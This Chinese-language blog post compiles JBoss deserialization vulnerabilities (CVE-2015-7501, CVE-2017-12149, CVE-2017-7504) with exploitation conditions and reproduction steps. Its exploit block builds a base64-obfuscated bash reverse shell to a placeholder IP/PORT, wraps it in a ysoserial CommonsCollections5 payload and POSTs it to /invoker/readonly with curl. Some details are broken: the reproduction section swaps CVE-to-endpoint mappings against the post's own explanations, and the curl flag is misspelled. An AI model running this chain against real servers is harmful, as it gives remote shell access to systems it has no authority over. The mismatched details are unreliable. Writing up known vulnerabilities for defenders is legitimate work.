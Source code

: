 ```yaml
---
layout: post
title: JBoss 漏洞整理
date: 2022-8-31
categories: blog
tags: [漏洞复现,jboss]
description: jboss


---
```

### JBoss反序列化

RMI数据传输基于反序列化，服务中若实现RMI的调用且具有对象，那么就可能造成反序列化漏洞。JMX服务基于RMI实现，且将凭证作为对象传入

#### **CVE-2015-7501漏洞原理**

JBoss中的`/invoker/JMXInvokerServlet`请求中读取用户传入的对象,可以任意代码执行

#### **CVE-2017-12149漏洞原理**

JBoss的`HttpInvoker`组件中的`ReadOnlyAccessFilter`过滤器没有安全检查就进行反序列化

#### CVE-2017-7504漏洞原理

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞

### 利用条件

1. /invoker/readonly目录存在且能访问
2. 版本号为5.x/6.x
2. `/invoker/JMXInvokerServlet(JMXInvokerServlet漏洞指纹)`&`/invoker/readonly(jboss 6.0反序列化漏洞指纹)`

### **漏洞复现**

`只能通过链式调用来执行java语句，执行的语句必须可以写到一行里面，而且还不能带分号`
ysoserial.jar包的CommonsCollections5链把要执行的反弹shell生成一个ser文件
访问`/invoker/readonly`对三个漏洞均适用

#### CVE-2015-7501

漏洞存在`/jbossmq-httpil/HTTPServerILServlet`中，将payload作为`POST Body`发送至`/jbossmq-httpil/HTTPServerILServlet`即可

#### CVE-2017-12149

漏洞存在`/invoker/readonly`中，将payload作为`POST Body`发送至`/invoker/readonly`即可

#### CVE-2017-7504

漏洞存在`/invoker/JMXInvokerServlet`中，将payload作为`POST Body`发送至`JMXInvokerServlet-deserialization`即可

#### 漏洞利用

```shell
#利用runtime-exec-payloads生成代码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9JUC9QT1JUIDA+JjE=}|{base64,-d}|{bash,-i}
#利用ysoserial生成序列化数据
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9JUC9QT1JUIDA+JjE=}|{base64,-d}|{bash,-i}" > test.ser
#利用curl发送数据利用
curl IP:PORT/invoker/readonly --databinary @test.ser
```

### **漏洞修复**

禁止将JBoss的**JMXInvokerServlet**接口（默认8080）以及JBoss Web Console对外网开放
